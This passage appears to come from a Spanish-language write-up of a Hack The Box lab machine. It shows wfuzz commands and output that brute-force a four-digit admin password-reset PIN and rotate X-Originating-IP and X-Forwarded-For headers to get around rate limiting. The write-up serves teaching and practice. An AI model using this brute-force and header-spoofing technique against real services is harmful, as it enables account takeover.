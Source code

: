 ```bash
000000078:   429        36 L     125 W      6625 Ch     "0000 - 10.10.0.77"                            
000000076:   429        36 L     125 W      6625 Ch     "0000 - 10.10.0.75"                            
000000047:   429        36 L     125 W      6625 Ch     "0000 - 10.10.0.46"                            
000000045:   429        36 L     125 W      6625 Ch     "0000 - 10.10.0.44"                            
000000055:   429        36 L     125 W      6625 Ch     "0000 - 10.10.0.54"                            
000000090:   429        36 L     125 W      6625 Ch     "0000 - 10.10.0.89"                            
000000087:   429        36 L     125 W      6625 Ch     "0000 - 10.10.0.86"                            
000000086:   429        36 L     125 W      6625 Ch     "0000 - 10.10.0.85"                            
000000081:   429        36 L     125 W      6625 Ch     "0000 - 10.10.0.80"                            
000000077:   429        36 L     125 W      6625 Ch     "0000 - 10.10.0.76"  
```

- Para que itere tenemos que usar el parámetro `-m` en `wfuzz` para que itere.

```bash
❯ wfuzz -c -m zip -t 200 -z range,0000-9999 -w /home/miguelrega7/Hackthebox/altered/content/IPs -H "X-Originating-IP: FUZ2Z" -d 'name=admin&pin=FUZZ' -H "Cookie: XSRF-TOKEN=eyJpdiI6ImpCWXVEcURCbGRBMUxCZ3d2SjZrSlE9PSIsInZhbHVlIjoiY09uZG1JUGhpMnZtZFlwRDMzQzd2R2hoenFlZ0JwMzJhb3VsTzR0NmRPUk8vdm5DRkszMENJMHdSUHdhRUtEU0l3Y1JJbmMzY3FyRGtHQ0pUb2FiRXU4Q0ZpdWNueEhvemgwSkE3VTNDZTBKYVhFUDNQNU9MaXV1emJlS0FBekoiLCJtYWMiOiJjY2NkM2ZlNWEzNzU3MGEyNjZkNDNlY2RmYmE2MGEyMDFjZDU4MjlmNTRhYWQ0YTU0ZDRkYzc3Mjk1MDIwYTBmIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6InhFWnVudXJLVmhGM1IyWVFJbER0YkE9PSIsInZhbHVlIjoiWjIreGdWZGVoZDJtWmRiY0NGaEhraldmZE5KYVhuYzFIaWorWjQ4RXhUWitITTdnYk5HQW9uR0VTdjJVYVBjWEdLTXA3R3JzQjJIcVBCNzc5WmdoWFdDRVJXWEFHU1JzWTU0OHNlTXBIOVRJcVVuN0Q4eHRMUTRhSnB2eGQxdzkiLCJtYWMiOiIyZDQ2ZDhjZWQ0NTliY2M3NjQwNzE2ZjY5MDkxZGZkYjlkMTNkOTRkOTU1ODYwN2ZkZjZlMDljYTk5ZTE4N2U2IiwidGFnIjoiIn0%3D" http://10.10.11.159/api/resettoken
```

- Bueno si lo ejecutamos nos sigue bloqueando.

- Vamos a cambiar las cabecera a esta.

```bash
❯ wfuzz -c -m zip -t 200 -z range,0000-9999 -w /home/miguelrega7/Hackthebox/altered/content/IPs -H "X-Forwarded-For: FUZ2Z" -d 'name=admin&pin=FUZZ' -H "Cookie: XSRF-TOKEN=eyJpdiI6ImpCWXVEcURCbGRBMUxCZ3d2SjZrSlE9PSIsInZhbHVlIjoiY09uZG1JUGhpMnZtZFlwRDMzQzd2R2hoenFlZ0JwMzJhb3VsTzR0NmRPUk8vdm5DRkszMENJMHdSUHdhRUtEU0l3Y1JJbmMzY3FyRGtHQ0pUb2FiRXU4Q0ZpdWNueEhvemgwSkE3VTNDZTBKYVhFUDNQNU9MaXV1emJlS0FBekoiLCJtYWMiOiJjY2NkM2ZlNWEzNzU3MGEyNjZkNDNlY2RmYmE2MGEyMDFjZDU4MjlmNTRhYWQ0YTU0ZDRkYzc3Mjk1MDIwYTBmIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6InhFWnVudXJLVmhGM1IyWVFJbER0YkE9PSIsInZhbHVlIjoiWjIreGdWZGVoZDJtWmRiY0NGaEhraldmZE5KYVhuYzFIaWorWjQ4RXhUWitITTdnYk5HQW9uR0VTdjJVYVBjWEdLTXA3R3JzQjJIcVBCNzc5WmdoWFdDRVJXWEFHU1JzWTU0OHNlTXBIOVRJcVVuN0Q4eHRMUTRhSnB2eGQxdzkiLCJtYWMiOiIyZDQ2ZDhjZWQ0NTliY2M3NjQwNzE2ZjY5MDkxZGZkYjlkMTNkOTRkOTU1ODYwN2ZkZjZlMDljYTk5ZTE4N2U2IiwidGFnIjoiIn0%3D" http://10.10.11.159/api/resettoken
```

- No nos bloquea pero obtenemos respuestas iguales.
